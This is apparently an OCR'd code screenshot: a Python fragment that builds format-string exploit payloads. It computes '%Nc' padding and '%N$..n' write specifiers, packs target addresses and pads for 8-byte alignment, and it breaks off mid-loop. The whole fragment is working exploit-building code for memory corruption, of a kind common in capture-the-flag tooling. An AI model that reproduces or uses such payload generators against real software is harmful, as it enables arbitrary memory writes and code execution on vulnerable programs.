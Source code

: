 ```python
	payload = ""

	payload_last = ""
	for where,what in writes.items():
		for i in range(0,number*step,step):
			payload_last += pack(where+i)

	fmtCount = 0
	payload_forward = ""
	
	key_toadd = []
	key_offset_fmtCount = []


	for where,what in writes.items():
		for i in range(0,number):
			current = what & mask
			if numbwritten & mask <= current:
				to_add = current - (numbwritten & mask)
			else:
				to_add = (current | (mask+1)) - (numbwritten & mask)

			if to_add != 0:
				key_toadd.append(to_add)
				payload_forward += "%{}c".format(to_add)
			else:
				key_toadd.append(to_add)
			payload_forward += "%{}${}n".format(offset + fmtCount, formatz)
			key_offset_fmtCount.append(offset + fmtCount)
			#key_formatz.append(formatz)

			numbwritten += to_add
			what >>= decalage
			fmtCount += 1

	
	len1 = len(payload_forward)

	key_temp = []
	for i in range(len(key_offset_fmtCount)):
		key_temp.append(key_offset_fmtCount[i])

	x_add = 0
	y_add = 0
	while True:
		
		x_add = len1 / 8 + 1
		y_add = 8 - (len1 % 8)
		
		for i in range(len(key_temp)):
			key_temp[i] = key_offset_fmtCount[i] + x_add
		
		payload_temp = ""
		for i in range(0,number):
			if key_toadd[i] != 0:
				payload_temp += "%{}c".format(key_toadd[i])
			payload_temp += "%{}${}n".format(key_temp[i], formatz)

		len2 = len(payload_temp)

		xchange = y_add - (len2 - len1)
		if xchange >= 0:
			payload = payload_temp + xchange*'a' + payload_last
```